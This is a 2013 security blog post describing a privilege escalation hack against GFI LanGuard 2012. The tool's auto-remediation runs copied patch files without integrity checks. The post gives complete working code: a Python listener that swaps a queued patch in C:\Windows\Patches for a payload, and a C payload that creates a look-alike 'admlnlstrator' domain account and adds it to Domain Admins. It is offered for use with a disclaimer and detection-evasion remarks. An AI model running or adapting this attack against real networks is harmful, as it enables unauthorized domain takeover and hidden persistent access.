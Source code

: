 ```yaml
---
layout: splash
title: "GFI LanGuard 2012 Priviledge Escalation"
date: 2013-02-05 00:00:00 -0700
categories: Blog Tools
permalink: /:title.html
---
```

## Download

[https://github.com/RabbidByte/GFI2012-PrivilegeEscalation](https://github.com/RabbidByte/GFI2012-PrivilegeEscalation)

## What is GFI LanGuard 2012?
GFI LanGuard 2012 [http://www.gfi.com/network-security-vulnerability-scanner](http://www.gfi.com/network-security-vulnerability-scanner) is a software package that competes with Microsoft SCCM. This software is placed in a network environment to inventory hardware, software, perform basic vulnerability assessment, and manage the software packages on the computers within the network. At the time of writing this article the current version in 2012.

LanGuard is actually quite a nice product. Sure it does have some issues like the amount of bandwidth required between sites, but all in all it gives an administrator great insight into what is actually out on their network. However we all know that not all administrators are created equally.

In order for this hack to work an admin is required to implement a poor configuration. Luckily for you GFI provides absolutely no training for this product and there were no other third party training programs found either. So that basically leaves your admin to read the PDF’s supplied by GFI at [http://www.gfi.com/network-security-vulnerability-scanner/manual](http://www.gfi.com/network-security-vulnerability-scanner/manual) Now ask yourself, would your admin read these? Probably not because the software is so intuitive that installation and roll out is really point and click.

## How it works
LanGuard has a very handy feature called auto remediation. This feature will push updates approved by the administrator to the machines out in the network. When the process begins the updated packages are copied to the local machine and then executed. The patches are installed and the user can be sent a prompt to restart the machine.

When we first started looking at a way to hack this process we had no idea it would be so simple. There is absolutely no integrity check on the files before they are executed. So really what is to stop someone from changing the contents of the files before they are executed? Nothing. However GFI copies the files into the folder C:\Windows\Patches which has local security policies on it. This is the reason why local administrator privileges are required.

Once you alter the files and the GFI process has copied all patches to the machine an on the fly batch file is created and the files are executed. So don’t change the file name or it won’t get run.

Here is what we did to inject our own file content. First a listener program is launched to monitor the contents of the Patches directory. Once it sees that there are two files in the directory (meaning one has been written and the second is probably still being written to and locked) it will overwrite the first file with the payload file.

The payload file in this example is really nothing special. Hell this whole hack is not special … we had such high hopes for it too. Either way the executable adds an AD account and gives it some nice domain permissions. Once it is run … try out your new account.

## Requirements for Hack to be Successful
As previously mentioned there are some settings and requirements needed for this hack to work. So here they are.

1. Attacker must have local admin on a windows box that is joined to the same domain as GFI. This is really not hard to get. If you don’t know how to get local admin just check Google.
2. The administrator MUST have configured a Domain Account in the Auto Remediation Settings. The hack will be able to elevate privileges to the level of this account.

![alt text](/assets/images/gfi/Login.png "Login")

## The Files
listener.py

```python
'''
Created on Dec 21, 2012
@author: RabbidByte (previously Essential Exploit Labs)
'''
import os, shutil
path="C:\\Windows\\Patches\\"
payload="payload.exe"
hook=0
files = []

dirList=os.listdir(path)
for fname in dirList:
    fileToDelete = path
    fileToDelete += fname
    os.remove(fileToDelete)
fname = None

while hook==0:
    dirList = None
    dirList=os.listdir(path)
    for fname in dirList:
        if fname.endswith(".exe"):
            if fname not in (files):
                files.append(fname)
    if len(files) > 1:
        print "We got the Files "
        print files[0]
        print "and "
        print files[1]
        print "Time to launch payload!"
        hook=1

fReplace = path
fReplace += files[0]
shutil.copy(payload, fReplace)
```

payload.c

```c
// payload.cpp 
// RabbidByte (previously Essential Exploit Labs)

#include "stdafx.h"
#include <Windows.h>

void exploit()
{
	system("net user admlnlstrator MyPassw0rd /add /domain");
	system("net group \"Domain Admins\" admlnlstrator /add /domain");
}

int _tmain(int argc, _TCHAR* argv[])
{
	exploit();
	return 0;
}
```

## NOTES
1. Due to the special requirements needed for this to work we have labeled it as a hack and not an exploit.
2. Many networks have systems that alert admins when powerful AD accounts are created. You will probably get busted if you try to use this the way it is.
3. As always the author of this article is not responsible for how you use this information.
